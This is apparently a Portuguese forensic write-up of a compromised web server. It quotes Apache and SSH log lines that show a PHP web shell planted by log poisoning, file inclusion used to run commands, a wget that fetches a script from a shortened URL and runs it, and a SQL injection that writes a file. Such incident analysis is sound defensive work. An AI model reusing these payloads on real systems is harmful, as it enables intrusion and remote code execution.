 Um dos principais e mais impactantes ataques foi induzido pela seguinte linha:
```
192.168.56.1 - - [14/Dec/2019:01:39:10 +0000] "GET /index.php?a=<?php system($_GET['cmd']);?> HTTP/1.1" 200 1516
```
Esta injeção de código *PHP* permite criar uma **backdoor**, pela qual pode ser possível aceder a uma *shell* do sistema.
Depois de criado o *backdoor*, o atacante descarregou um *script*	e executou-o.
```
192.168.56.1 - - [14/Dec/2019:01:39:10 +0000] "GET /display.php?type=1&lang=/var/log/httpd/access_log&cmd=ls%20/ HTTP/1.1" 200 218571
192.168.56.1 - - [14/Dec/2019:01:39:10 +0000] "GET /display.php?type=1&lang=/var/log/httpd/access_log&cmd=find%20/ HTTP/1.1" 200 3573861
192.168.56.1 - - [14/Dec/2019:01:39:10 +0000] "GET /display.php?type=1&lang=/var/log/httpd/access_log&cmd=find%20/%20-perm%20-4000 HTTP/1.1" 200 219136
192.168.56.1 - - [14/Dec/2019:01:39:11 +0000] "GET /display.php?type=1&lang=/var/log/httpd/access_log&cmd=wget%20https://bit.ly/2LRYDSQ%20-O%20/tmp/steg_drop.py HTTP/1.1" 200 218909
192.168.56.1 - - [14/Dec/2019:01:39:11 +0000] "GET /display.php?type=1&lang=/var/log/httpd/access_log&cmd=find%20/ HTTP/1.1" 200 3580340
192.168.56.1 - - [14/Dec/2019:01:39:12 +0000] "GET /display.php?type=1&lang=/var/log/httpd/access_log&cmd=/opt/venv/bin/python3%20/tmp/steg_drop.py HTTP/1.1" 200 219228
```
O atacante acedeu também a várias tabelas da base de dados, incluido tabelas de sistema, e descarregou vários ficheiros de configuração, obtendo informação que lhe permitiu injetar o código referido.

Ao analisar o ficheiro `etc/httpd/logs/error_log` notamos que ocorreram vários erros causados por tentativas de acesso a vários ficheiros por parte do atacante que, sendo feitos pelo utilizador **Apache** a dados do utilizador **MySQL**, resultavam em erros de permissão de acesso.

No ficheiro `srv/chroot-mariadb/usr/libexec/mysqld` não encontramos nada anormal, pelo que assumimos que nada foi atacado nesta aplicação em particular.

Comprovámos também que, no diretório `srv/chroot-mariadb/var/tmp`, estava presente o ficheiro `x.txt`, que, conforme analisado em `etc/httpd/logs/access_log`, foi inserido:
```
192.168.56.1 - - [14/Dec/2019:01:39:04 +0000] "GET /details.php?prod=1%20union%20select%201,2,3,4,'hello'%20into%20outfile%20'/var/tmp/x.txt' HTTP/1.1" 200 1673
```

Ao analisar o ficheiro `var/log/secure` vimos que o atacante efectuou várias tentativas de login por **ssh** à *backdoor* criada anteriormente:
```
Dec 14 01:39:06 localhost sshd[1905]: Invalid user <?php system($_GET["cmd"]);?> from 192.168.56.1
Dec 14 01:39:06 localhost sshd[1905]: input_userauth_request: invalid user <?php system($_GET["cmd"]);?> [preauth]
Dec 14 01:39:08 localhost sshd[1905]: pam_unix(sshd:auth): check pass; user unknown
Dec 14 01:39:08 localhost sshd[1905]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.56.1
Dec 14 01:39:10 localhost sshd[1905]: Failed password for invalid user <?php system($_GET["cmd"]);?> from 192.168.56.1 port 46636 ssh2
Dec 14 01:39:10 localhost sshd[1905]: error: maximum authentication attempts exceeded for invalid user <?php system($_GET["cmd"]);?> from 192.168.56.1 port 46636 ssh2 [preauth]
Dec 14 01:39:10 localhost sshd[1905]: Disconnecting: Too many authentication failures [preauth]
``` 
